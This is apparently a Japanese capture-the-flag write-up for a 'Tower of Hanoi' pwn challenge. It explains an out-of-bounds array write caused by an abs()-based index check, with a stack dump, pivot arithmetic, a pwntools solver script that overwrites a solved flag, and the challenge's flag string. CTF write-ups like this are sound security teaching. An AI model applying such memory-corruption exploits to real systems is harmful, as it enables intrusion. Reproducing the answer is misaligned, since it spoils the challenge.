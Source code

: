 # Tower_of_Hanoi

## 問題文

wikiによるハノイの塔の説明

- 3本の杭と大きさの異なる複数の円盤がある。
- 最初はすべての円盤が左端の杭に小さいものが上になるように順に積み重ねられている。
- 円盤を一回に一枚ずつどれかの杭に移動させることができるが、小さな円盤の上に大きな円盤を乗せることはできない。

N枚の円盤で構成されたハノイの塔を解くには2^N-1回の動きが必要だそうです。
円盤32枚のハノイの塔をできるだけ早く解いてもらえますか？

`nc hanoi.pwn.wanictf.org 9007`

## フラグ

`FLAG{5up3r_f457_h4n01_501v3r}`

## 解法

3つの杭は3*32の2次元配列で管理されています。
プログラムは円盤を動かすとき、その動きが正しいかを判断し、正しいと判断したらその杭のpivotに書かれた位置の値を動かします。
しかし、怪しい部分があります。
```
	if(abs(src)>2||abs(dst)>2){  // ???
```
二次元配列の管理の便利上、AのASCIIは65であることを用いて
```
	int src=(int)from-65;
	int dst=(int)to-65;
```
上のように管理します。そして杭は0,1,2のいずれかである必要があります。
しかしabsは絶対値を求めるので負の値の検出ができません。
それではsrcやdstがマイナスの場合を考えて見ましょう。
2次元int配列AでA[a][b]の値を参照すると
A[0][0]のアドレス+4*b*a+4*bの位置の値を参照します。

この問題では　rod[0][0]のアドレス+4*32(HANOI_SIZE)*a+4*rod_pivot[a]　になります。

以下はnameにABCDEFGHIJK MoveでACを入力した場合のスタックです。

```
0x7ffffffedcf0: 0xfffedeb0      0x00007fff      0x00000000     |0x0a434100->Selection(Move)

杭A (rod[0][0])
0x7ffffffedd00: 0x00000001      0x00000002      0x00000003      0x00000004
0x7ffffffedd10: 0x00000005      0x00000006      0x00000007      0x00000008
0x7ffffffedd20: 0x00000009      0x0000000a      0x0000000b      0x0000000c
0x7ffffffedd30: 0x0000000d      0x0000000e      0x0000000f      0x00000010
0x7ffffffedd40: 0x00000011      0x00000012      0x00000013      0x00000014
0x7ffffffedd50: 0x00000015      0x00000016      0x00000017      0x00000018
0x7ffffffedd60: 0x00000019      0x0000001a      0x0000001b      0x0000001c
0x7ffffffedd70: 0x0000001d      0x0000001e      0x0000001f      0x00000020
杭B (rod[-1][0])
0x7ffffffedd80: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffedd90: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffedda0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffeddb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffeddc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffeddd0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffedde0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffeddf0: 0x00000000      0x00000000      0x00000000      0x00000000
杭C (rod[-2][0])
0x7ffffffede00: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede10: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede20: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede30: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede40: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede50: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede60: 0x00000000      0x00000000      0x00000000      0x00000000
0x7ffffffede70: 0x00000000      0x00000000      0x00000000      0x00000000

Name----------------------------------------------------------------------
0x7ffffffede80: 0x44434241      0x48474645      0x0a4b4a49      0x00000000
     Pivot----------------------------------------|--Solved_Flag
0x7ffffffede90: 0x00000000      0x0000001f      0x0000001f      0x00000000
```
-1番杭を選択した場合、Pivotは名前の最後の部分を参照します。

rod[0][0]のアドレス+4*32(HANOI_SIZE)*(-1)+4*rod_pivot[-1]
= rod[0][0]のアドレス-32+4*nameの最後の4バイト

Nameの最後の4バイトの値を使って好きな部分にデータを動かすことができます。
今回は
```
solved_flag=is_solved(rod); // ???
```
の位置を考えて簡単な解決法にしましょう。
solved_flagの更新をループの頭で確認しているため、move_hanoiでsolved_flagの値を1にしたら
そのままループを脱出できます。
1は1番杭のトップにあるため、(-1)番からsolved_flagの位置に対するpivotの値だけ計算すればMove>のあと1(-1)を入れてすぐ書き換えられます。
Solved_Flagはrod[0][0]から 3x32+7番目にあります
Solved_Flagはrod[-1][0]であるrod[0][0] - 32からは(3+1)x32+7であるため
Pivotの値は135になります。
ASCII 64は@であることを使うとSolverは以下のようになります。

```
from pwn import *

payload = b'A'*12
payload += p32(135)

payload2 = b"A@"

pc=process("./hanoi_memory")
print('Connected')

print(pc.recvuntil("Name : "))
pc.send(payload)
print('Payload sended')
print(pc.recvuntil("Move >"))
pc.send(payload2)
pc.interactive()
```
このコードで１をA杭のトップからSolved_Flagへ動かすことができます。
これでループから脱出ができ、フラグが表示されるようになります。
